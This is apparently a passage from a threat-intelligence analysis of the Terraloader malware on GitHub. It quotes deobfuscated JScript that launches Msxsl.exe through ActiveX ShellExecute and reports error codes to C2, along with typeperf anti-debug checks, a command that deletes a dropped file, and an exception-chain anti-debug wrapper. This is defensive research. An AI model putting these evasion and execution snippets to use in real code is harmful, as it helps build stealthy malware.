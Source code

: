 <p align="center"><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Terraloader/2021-03-25/Pictures/WritePayload.png"></p>

<h4>This executes the following commands for getting the performances of system for check common anti-debug artefacts by typeperf and remove it on the disk like said previously.</h4>

```cmd
typeperf.exe "\System\Processor Queue Length" -si 600 -sc 1
C:\Windows\system32\cmd.exe  /c del "C:\Users\admin\AppData\Local\Temp\58611.ocx" >> NUL
```
<h4>This execute first of two JS files for launch the second terraloader by MSXML, this use variables for content characters and obfuscate the payload.</h4>

```js
    var pzuunawd96 = "\\";
    var pzuunawd6 = "x";
    var pzuunawd5082 = ".";
    var pzuunawd423 = "e";
    var pzuunawd4 = "s";
    var pzuunawd33 = "l";
    var pzuunawd66 = "t";
    var pzuunawd8 = "M";
    var pzuunawd396 = "a";
    var pzuunawd25 = "p";
```
<h4>Once removing the obfuscation, we can now see it and see the new value as code error returned to C2, this allows to the group to know if the sample has been opened, have infected a system but don't have run the second layer or infected but not the good target by hardware/account verification process.</h4>

```js
var Code = 0;
function GetActX(a) {return new ActiveXObject(a); }
try 
{
    var ObjX = GetActX("shell.application");
    ObjX.ShellExecute("Msxsl.exe", "3850FC6E77257.txt 3850FC6E77257.txt", "C:\\Users\\admin\\AppData\\Roaming\\Microsoft\\", "", 0);
} 
catch (e) { Code = 629; }
```
<h4>This version is like version of September 2020 has a fixed size the comparison of the two objects, doesn't have a method to push elements into arrays so it goes through a global variable and fewer ciphers in the decryption process but passes by an additional argument the number of cycles to add to the process.</h4>

<h4>One point of interest is to see although this is the old version, it still has the exceptions added in the last version to avoid debugging them with operations on non-existent variable values.</h4>

```js
        exec = function(a) {
            try {
                excepval = excepval + 609;
            } catch (e) {
                try {
                    excepval2 = excepval2 / 528;
                } catch (e2) {
                    try {
                        excepval3 = excepval3 * 277;
                    } catch (e3) {
                        try {
                            excepval4 = excepval4 - 904;
                        } catch (e4) {
                            return (Function(a))();
                        }
                    }
                }
```